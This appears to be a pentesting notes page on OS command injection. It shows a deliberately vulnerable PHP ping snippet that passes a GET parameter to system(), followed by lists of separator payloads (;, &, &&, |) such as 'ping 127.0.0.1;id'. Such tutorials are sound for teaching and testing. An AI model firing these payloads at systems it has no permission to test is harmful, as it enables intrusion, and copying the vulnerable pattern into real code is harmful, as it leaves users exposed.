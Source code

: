 ```yaml
---
title: Command Injection
tags: [recon, exploit, command, webvuln, injection, automated, payload]
tools: ['nulcei', 'burpsuite', 'metasploit']
notes: "Common web service command injection ttp"
---
```


# Command Injection

**Command Injection** is a web security vulnerability  that allows an attacker to execute arbitrary system commands on the host operating system. This vulnerability occurs when an application passes  unsafe user supplied data to a system shell.

## How It Works

Command injection occurs when an application executes system commands that  include user-supplied data without proper sanitization. For example, in  the code:

```php
<?php $cmd = 'ping -c 4 ' . $_GET['host'];system($cmd);?>
```

An attacker might input: `8.8.8.8; ls -la`, changing the command to:

```bash
ping -c 4 8.8.8.8; ls -la
```

This executes both the ping command and lists directory contents.

## Detection

### Manual Testing

#### Command Separator Tests

Used to chain multiple commands together. Tests if the application properly sanitizes command separators:

```bash
# Semicolon (;) - Command sequencing
command1;command2        # Executes commands sequentially
ping 127.0.0.1;id       # Executes ping, then id
echo test;whoami        # Outputs test, then username

# Ampersand (&) - Background processing
command1&command2       # Executes both commands in background
ping 127.0.0.1&dir     # Starts ping and immediately runs dir
whoami&hostname        # Runs both commands simultaneously

# Double Ampersand (&&) - Conditional execution
command1&&command2      # Executes command2 only if command1 succeeds
ping 127.0.0.1&&whoami # Runs whoami only if ping succeeds
cd /tmp&&ls -la        # Lists directory only if cd succeeds

# Pipe (|) - Output redirection
command1|command2      # Sends output of command1 to command2
whoami|tr a-z A-Z     # Converts username to uppercase
ls -la|grep root      # Lists files and filters for 'root'
```

